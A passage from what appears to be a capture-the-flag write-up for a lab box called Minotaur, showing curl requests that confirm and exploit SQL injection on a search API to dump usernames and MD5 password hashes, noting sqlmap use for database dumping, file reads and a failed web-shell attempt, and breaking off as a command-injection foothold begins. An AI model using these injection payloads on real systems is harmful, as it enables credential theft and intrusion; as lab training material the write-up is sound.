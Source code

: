 The same credentials are also available at a second location discovered by gobuster - in good old CTF fashion, they are included in an "obfuscated" array at `/js/login.js`.

## 5. "User Pannel" - sqli, credential disclosure, sqlmap

As we saw in section 2, the "User Pannel" page provides some kind of interface for querying the application database. Using the search term `'` causes a 500 error, indicating that the field is injectable (we add a cookie taken from the browser to the curl request because the `/api/` endpoint requires authentication) : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/api/people/search -d "namePeople='" -H "Cookie: PHPSESSID=uoa154tu9iqnqn4krneopu1n83" -v
...snip...
* HTTP 1.0, assume close after body
< HTTP/1.0 500 Internal Server Error
```

Repeating the request with a simple injection dumps the table corresponding to the endpoint (people or creatures), including names and MD5 password hashes : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/minotaur]
└─$ curl $IP/api/people/search -d "namePeople=' OR '1'='1" -H "Cookie: PHPSESSID=uoa154tu9iqnqn4krneopu1n83" -v
...snip...
* Connection #0 to host 10.10.248.53 left intact
[[{"idPeople":"1","namePeople":"Eurycliedes","passwordPeople":"42354020b68c7ed28dcdeabd5a2baf8e"},{"idPeople":"2","namePeople":"Menekrates","passwordPeople":"0b3bebe266a81fbfaa79db1604c4e67f"},{"idPeople":"3","namePeople":"Philostratos","passwordPeople":"b83f966a6f5a9cff9c6e1c52b0aa635b"},{"idPeople":"4","namePeople":"Daedalus","passwordPeople":"b8e4c23686a3a12476ad7779e35f5eb6"},{"idPeople":"5","namePeople":"M!n0taur","passwordPeople":"1765db9457f496a39859209ee81fbda4"}]] 
```

The previously discovered comments on the page and in the FTP server indicate that the minotaur user (stylised here as "M!n0taur") may be an administrator. The second room flag requires cracking their hash found in the above injection and connecting to the "User Pannel" as minotaur - the flag will be shown in the navbar at the top of the page, along with a link to a "Secret Stuff" page that leads to the previously discovered `echo.php` route.

Having discovered the injectable field, the request can be passed to sqlmap to dump the entire database (which only contains the discovered "people" and "creature" tables) and to read files on the host system - attempting to write a web shell using sqlmap's "--os-shell" feature fails, presumably due to permissions on the web root directory.

## 6. Foothold - command injection, RCE

None of the previous steps (credentials, injectable fields, 2nd flag, etc.) are required to get a foothold on the box. When attempting to access the `/echo.php` route in the browser without authentication causes a 302 redirect to `/login.html`, but given that curl does not automatically follow redirects, we can easily interact with the page without the previously discovered credentials. Curling `/echo.php` we find an interface to "echo" text to the page, with user input being is sent back to the `/echo.php` page as a "?search" query param : 
